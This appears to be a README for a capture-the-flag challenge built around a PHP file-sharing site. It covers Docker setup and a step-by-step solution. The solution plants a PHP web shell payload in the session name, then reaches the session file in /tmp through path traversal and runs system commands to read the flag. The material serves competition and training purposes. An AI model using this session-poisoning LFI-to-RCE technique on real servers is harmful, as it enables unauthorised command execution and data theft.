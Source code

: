 ## Description

Try out my new file sharing site!  

		http://<address>

## Documentation

It's a pretty obvious LFI challenge but there isn't any way to actually upload files so you need to find a location you can read and write to.  The only way i've tried that works in this specific case is the php session files under /tmp/sess_*.  The apache access/error logs aren't readable to the php process so thats out.  The X-Powered-By header does specify that it is running PHP 7.3.15 and a contestant can look up the configuration to find the location of the session files because they are in the default location

### Setup

1. docker build . -t filestorage
2. docker run -p 80:80 filestorage

## Solution

1. Set your name to `<?php echo system($_GET["cmd"]); ?>`
2. Determine your PHPSESSID.  It can be found in your cookies.  
3. Look up the default php.ini for php 7.3.15 and determine that the default session location is /tmp/sess_*
4. Navigate to index.php?file=../../../../../tmp/sess_{your phpsessid}&cmd=ls%20/
5. Observe that there is a folder in the root named "flag_is_here".  Check the contents of this folder and then just execute "cat /flag_is_here/flag.txt"
